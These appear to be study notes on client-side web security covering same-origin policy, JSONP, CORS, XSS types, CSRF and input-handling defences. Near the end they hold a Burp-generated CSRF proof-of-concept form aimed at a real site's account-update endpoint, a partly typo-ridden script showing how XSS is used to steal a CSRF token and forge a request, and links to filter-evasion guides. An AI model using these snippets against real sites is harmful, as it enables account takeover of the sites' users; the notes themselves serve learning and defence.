# Client-Side

**Client-side** refers to everything in a web application that is displayed or takes place in the client (end user device). This can be a browser, smart phone or even a desktop application



## Same-Origin Policy

**Same-Origin policy (SOP)** is a security mechanism that restricts how a document or script loaded from one *origin* can interact with a resource from another origin. It helps isolate potentially malicious documents, reducing possible attack vectors.

If a resource if not from the same-origin, it is from a **cross-origin**

In general, JavaScript cannot access data from another origin; the browser blocks cross-origin requests initiated from scripts.

### Rules of Same-Origin Policy

Two URLs have the *same origin* if the **protocol**, **port** (if specified), and **host** are the same for both. This is often referenced as `<scheme>://<host>:<port>/<path>`

The following table gives an overview of typical outcomes for checks against the url <http://www.example.com/dir/page.html>



### Cross-Origin in SOP

**Static (embedded) content** such as scripts, images, etc. which remain constant, are not guarded by SOP (due to older HTML standards). Only `GET` requests are allowed for these. Some examples of resource which may be embedded cross-origin:

* JavaScript with `<script src="…"></script>`. Error details for syntax errors are only available for same-origin scripts
* CSS applied with `<link rel="stylesheet" href="…">`
* Images displayed by ``
* Media played by `<video>` and `<audio>`
* External resources embedded with `<object>` and `<embed>`
* Anything embedded by `<iframe>`. Sites can use the `X-Frame-Options` header to prevent cross-origin framing

**Dynamic contents**, which is changed based on user input is content fetched via `XMLHTTPRequests`, are guarded by SOP.

APIs hosted in ***different domains***; scripts and images hosted on a ***different domain*** are also considered cross origin and are not allowed to be loaded.

### Workaround for SOP

**JSONP (JSON with padding)** provides a work-around for the SOP problem.

1. Run JavaScript code inside HTML with the `<script>` tag  
The script can reference URL with no JavaScript extension

    ``` js
    <script src='http://127.0.0.1:5002/api/v1/sop'></script>
    <script>
    function myTransactionData(data) {
        var transactions = data.transactions.length;
        var resultNode = document.getElementById('tbl');
        resultNode.innerHTML = ''
        addRow(resultNode, 'Sender', 'Amount', 'Curency', 'Receiver');
        for (var i = 0; i < transactions; i++) {
            addRow(resultNode, data.transactions[i].from, data.transactions[i].to, /* ... */
                    data.transactions[i].details);
        }
    }
    </script>
    ```

2. The padded JSON response is surrounded by a JavaScript function

    ``` js
    myTransaction({'transactions': [{'transactionId': 37423, ...},
                                    {'transactionId': 5473723,  ...}
                                    ...]})
    ```

There is no official specification for JSONP; it's a hack.

### Cross-Origin Resource Sharing

**Cross-Origin Resource Sharing (CORS)** allows us cross-origin access. It uses additional HTTP headers to tell browsers to give a web application running at one origin, access to selected resources from a different origin.

All cross-origin calls must return with `Access-Control-*` headers:

* `Access-Control-Allow-Origin:` List of origins allowed
* `Access-Control-Allow-Methods:` List of methods allowed
* `Access-Control-Allow-Headers:` List of non-standard headers
* `Access-Control-Max-Age:` Value in seconds to cache **prefight** request

For HTTP request methods that can cause *side-effects* on server data, the specification mandates that browsers **preflight** the request, listing supported methods from the server with the HTTP `OPTIONS` request method, only sending the request upon "approval" from the server.

#### Simple Requests

These requests don't trigger a CORS preflight. The send the request, and if they are allowed to access the resource via the `Acces-Control` headers, they will load the resource.  
A **simple request** is allowed for the following methods with a few other prerequisites; `GET`, `HEAD`, `POST`

Example: suppose <https://foo.example> wishes to get content from <https://bar.other>. The JavaScript code may be used on [foo.example](foo.example)

``` js
const xhr = new XMLHttpRequest();
const url = 'https://bar.other/resources/public-data/';

xhr.open('GET', url);
xhr.onreadystatechange = someHandler;
xhr.send();
```

The browser will send a request with `Origin: https://foo.example`:

``` http
GET /resources/public-data/ HTTP/1.1
Host: bar.other
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-us,en;q=0.5
Accept-Encoding: gzip,deflate
Connection: keep-alive
Origin: https://foo.example
```

In response, the server sends back an `Access-Control-Allow-Origin` header

``` http
HTTP/1.1 200 OK
Date: Mon, 01 Dec 2008 00:23:53 GMT
Server: Apache/2
Access-Control-Allow-Origin: *
Keep-Alive: timeout=2, max=100
Connection: Keep-Alive
Transfer-Encoding: chunked
Content-Type: application/xml

[…XML Data…]
```

`Access-Control-Allow-Origin: *`, which means that the resource can be accessed by ***any*** domain. If <https://bar.other> wished to restrict access to the resource to requests only from <https://foo.example>, they would send:

``` http
Access-Control-Allow-Origin: https://foo.example
```

#### Preflight Requests

**Preflighted** requests first send an HTTP request by the `OPTIONS` method to the resource on the other domain, to determine if the actual request is safe to send. They are sent like this because they may have implications to user data.

The following is an example of a request that will be preflighted:

``` js
const xhr = new XMLHttpRequest();
xhr.open('POST', 'https://bar.other/resources/post-here/');
xhr.setRequestHeader('X-PINGOTHER', 'pingpong');
xhr.setRequestHeader('Content-Type', 'application/xml');
xhr.onreadystatechange = handler;
xhr.send('<person><name>Arun</name></person>');
```

This performs an exchange between the client and server using CORS header to handle the privileges:



## Cross-site Scripting (XSS)

**Cross-site scrripting (XSS)** is the injection of malicious client-side code into a user's browser. XSS could lead to:

* compromise of session cookies
* defacement of a website
* bypass CSRF protection
* anything that could be done with JavaScript

XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user.



There are three main types of XSS:

* Reflected XSS - the malicious script comes from the current HTTP request
* Stored XSS - the malicious script comes from the website's database
* DOM-Base XSS - the vulnerability exists in the client-side code rather than server-side code

### Reflected XSS

**Reflected XSS** occurs when an application receives data in a HTTP request and includes that data within the immediate response in an unsafe way. The input is ***reflected*** back in the response and gets executed.

The workflow of a reflected XSS:



The details of a reflected XSS:



### Stored XSS

**Stored XSS** (aka persistent XSS) occurs when an application receives data from an untrusted source and includes that data within its ***later*** HTTP responses in an unsafe way. The input is ***persisted*** in some sort of database and shown back to the user from where it is stored.

The workflow of a stored XSS:



The details of a stored XSS:



### DOM-Based XSS

**DOM-based XSS** occurs when an application contains some client-side JavaScript that processes data from an untrusted source in an unsafe way, usually by writing the data back to the DOM.

The workflow of a DOM-based XSS:



The details of a DOM-based XSS:



The key difference between a stored XSS and DOM-based XSS is that the victim's browser executes the payload via the DOM.

### Avenues of Attack

* HTTP headers
* Intentionally invalid requests (e.g. `http://192.168.1.1/lol.php?\<script></script>`)

**Cross-Site Request Forgery (CSRF)** is an attack in which the attacker induces users to perform actions that they don't intend to perform. It allows the attacker to partly circumvent the same origin policy.

``` html
<html>
<!-- CSRF PoC - generated by Burp Suite Professional -->
<body>
<form action="https://connect.hbo.com/account/update" method="POST">
<input type="hidden" name="&#95;token" value="9SEfzSSt3BRKWCsNylia98mcokjgc91AJLMJ51sp"/>
<input type="hidden" name="first&#95;name" value="aaaaaaaaaaa"/>
<input type="hidden" name="last&#95;name" value="usera"/>
<input type="hidden" name="email" value="changeemail&#64;mailinator&#46;com"/>
<input type="hidden" name="zip&#95;code&#95;id" value="40404"/>
<input type="hidden" name="timezone" value="America&#47;New&#95;York"/>
<input type="submit" value="Submit request"/>
</form>
</body>
</html>
```

If an application has CSRF protection - this means nothing if you have XSS on the domain - you can bypass SOP. This is because any request made by the XSS originated from the same domain.

1. Use a `GET` to pull the CSRF token from a form
2. Make a `POST` to the endpoint
3. Exfil the return - since SOP is bypassed

``` js
// get token by opening a page where POST is protected by the token
varpage = new XMLHTTPRequests();
page.open("Get", "http://site.com/form", "false"); // open any page protecting POST with token
page.withCredentials=true;
var ID = page.responseText;
var i = ID.indexOf("csrf_token");
ID = ID.substring(i, ID.length).substr(x, y);

// embed token into CSRF request
page.open("POST", "https://site.com/form", false)
page.withCredentials=true;
var params = "data-123&csrf_toke="+ID;
page.setRequestHeader("Conent-length", params.length);
page.send(params);
```

Resources:

* OWASP's XSS [payloads](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
* `nullbyte`'s [bypassing XSS filters part 1](https://null-byte.wonderhowto.com/how-to/advanced-techniques-bypass-defeat-xss-filters-part-1-0190257/)
* `nullbyte`'s [bypassing XSS filters part 2](https://null-byte.wonderhowto.com/how-to/advanced-techniques-bypass-defeat-xss-filters-part-2-0190959/)

### Defences

**MAKE NO ASSUMPTIONS**!

* Don't trust user input. Before you use an input, validate it.
* Don't trust other systems you talk to. Validate all data you rely on.
* Validate both format and value - attacks aren't just semantic

What is untrusted input?  
Any input received from:

* users
* external sources (API calls, third-party systems)
* any input that could be influenced by users (cookie, web storage, HTTP header values)
* database
* internal sources
* config files that could potentially be influenced by users or other systems

When you are unsure of a data source, treat it as an untrusted data

### Strategies

**Validation** could have two different techniques; blacklisting and whitelisting.  
When is comes to the level of trust for your input:

* whitelist input if you can
* blacklist input if you can't
* most languages have their own filters

``` php
<?php
$new = htmlspecialchars("<a href='test'>Test</a>", ENT_QUOTE);
echo $new; //&lt;a href=&#039;test&#039;&gt;Test&lt;/a&gt;
?>
```

**Sanitisation** is the process of removal of unsafe HTML tags and attributes; `script`, `iframe`, `onerror`, `onload` etc.  

Always use a well-accepted HTML sanitisation library.  
Some of the libraries (*per recommendation from OWASP XSS Prevention Guide*) include:

* HtmlSanitizer for .Net
* OWASP Java HTML Sanitizer for Java
* SanitizeHelper for Ruby on Rails
* DOMPurify for Javascript
* Angular & React has built-in sanitisers

Always make sure the sanitiser is updated.

**Escaping** is the process of converting user input to a safe string

* URL encoding
* HTML encoding

Escaping in C#:



Input is encoded and rendered as follows:


